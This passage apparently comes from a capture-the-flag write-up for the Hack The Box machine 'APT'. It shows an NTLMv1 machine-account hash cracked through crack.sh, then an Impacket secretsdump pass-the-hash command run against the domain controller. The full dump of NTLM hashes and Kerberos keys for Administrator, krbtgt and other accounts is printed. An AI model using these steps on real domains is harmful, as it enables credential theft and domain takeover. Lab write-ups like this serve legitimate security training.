 ```text
NTHASH:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384
```

This is the format they wanted the hash submitted in.

I entered a throwaway email address, and submitted the hash. NTLMv1 hashes in the correct format are free.

```text
Crack.sh has successfully completed its attack against your NETNTLM handshake. The NT hash for the handshake is included below, and can be plugged back into the 'chapcrack' tool to decrypt a packet capture, or to authenticate to the server:

Token: $NETNTLM$1122334455667788$95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384
Key: d167c3238864b12f5f82feae86a7f798

This run took 32 seconds. Thank you for using crack.sh, this concludes your job.
```

I received an email very quickly from their server. It only took 32 seconds to find the hash in the rainbow table. Now I just needed to figure out how to use the machine account hash...

* [http://blog.carnal0wnage.com/2015/09/domain-controller-machine-account-to.html](http://blog.carnal0wnage.com/2015/09/domain-controller-machine-account-to.html)
* [https://winaero.com/beware-microsoft-defender-mpcmdrun-exe-tool-can-be-used-to-download-files/](https://winaero.com/beware-microsoft-defender-mpcmdrun-exe-tool-can-be-used-to-download-files/)

> `python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc LAB/DC2k8_1\$@172.16.102.15`

```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ python3 /home/zweilos/.local/bin/secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798 -just-dc HTB/APT\$@apt.htb.local
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
Administrator:des-cbc-md5:0816d9d052239b8a
krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
krbtgt:des-cbc-md5:f8c26238c2d976bf
henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
henry.vinson:des-cbc-md5:73b6f71cae264fad
henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
APT$:aes128-cts-hmac-sha1-96:bf1c1795c63ab278384f2ee1169872d9
APT$:des-cbc-md5:76c45245f104a4bf
[*] Cleaning up...
```
